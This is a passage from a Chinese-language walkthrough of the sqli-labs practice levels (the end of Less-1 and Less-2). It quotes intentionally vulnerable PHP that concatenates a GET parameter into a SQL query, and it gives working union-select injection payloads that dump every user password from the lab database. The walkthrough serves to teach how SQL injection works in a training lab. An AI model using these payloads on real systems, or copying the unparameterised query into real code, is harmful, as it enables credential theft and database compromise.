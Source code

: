 查询 users 表中 我们需要的字段 password 的数据 

```
?id=-1' union select 1,2,(select group_concat(password) from security.users),4,5,6 --+
```

<img src="图片\Snipaste_2023-01-20_11-57-09.png" alt="Snipaste_2023-01-20_11-57-09" style="zoom:67%;" />

## Less-2

题目部分源码，**GET的整型注入**

```php
$id=$_GET['id'];

// connectivity 
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
.........
echo 'Your Login name:'. $row['username'];
  	echo "<br>";
  	echo 'Your Password:' .$row['password'];
```

注入的原理和 Less-1 一样，就是闭合 sql 语句时不同，我们不需要 ‘ 来闭合

```
?id=-1 union select 1,2,(select group_concat(password) from security.users),4,5,6 --+
```

拼接到 sql 语句中为，整型的话就直接闭合了

```
$sql="SELECT * FROM users WHERE id=-1 union select 1,2,(select group_concat(password) from security.users),4,5,6 --+ LIMIT 0,1";
```
